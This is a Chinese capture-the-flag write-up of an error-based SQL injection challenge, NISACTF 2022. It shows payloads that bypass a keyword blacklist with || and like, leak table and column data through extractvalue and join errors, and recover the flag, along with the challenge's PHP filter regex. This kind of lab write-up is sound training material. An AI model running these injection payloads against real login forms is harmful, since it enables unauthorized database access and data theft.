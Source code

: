 #SQL 注入 #报错注入
登陆页面有输入框

报错注入

- or 被过滤用 ||代替
- = 被过滤用 like 代替

database 里面的 as 被过滤，通过查询一个不存在的表，通过报错获得表名

```sql
-1' || (select * from aa)#
```

Table 'sqlsql.aa' doesn't exist

```sql
1' || extractvalue(1,concat(0x07, (select group_concat(table_name) from information_schema.tables where table_schema like 'sqlsql'), 0x07))#
```

XPATH syntax error: 'Fal_flag,output'

column 被过滤，参考
[SQL 注入绕过之过滤了‘as‘与无列名注入*sql 注入表名被过滤*买 Lemon 也用劵的博客-CSDN 博客](https://blog.csdn.net/weixin_52118430/article/details/125107854?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165892926816782425178259%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=165892926816782425178259&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~pc_rank_v35-7-125107854-null-null.142%5Ev35%5Eexperiment_28w_v1,185%5Ev2%5Econtrol&utm_term=%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4187)

```sql
1' || extractvalue(1,concat(0x07, (select * from(select * from output b join output c)a), 0x07))#

1' || extractvalue(1,concat(0x07, (select * from(select * from output b join output c using(data))a), 0x07))#
```

XPATH syntax error: 'NSSCTF{7a079280-ba0f-483d-a8...'
直接获得半个 flag
获取剩下半个

```sql
1' || extractvalue(1,concat(0x07, (select mid(data,28) from output), 0x07))#
```

```php
$blacklist = "union|left|right|and|or|by|if|\&|sleep|floor|substr|ascii|=|\"|benchmark|as|column|insert|update";
```

[[NISACTF 2022]下*[nisactf 2022]is secret*偶尔躲躲乌云 334 的博客-CSDN 博客](https://blog.csdn.net/qq_62046696/article/details/126023632)

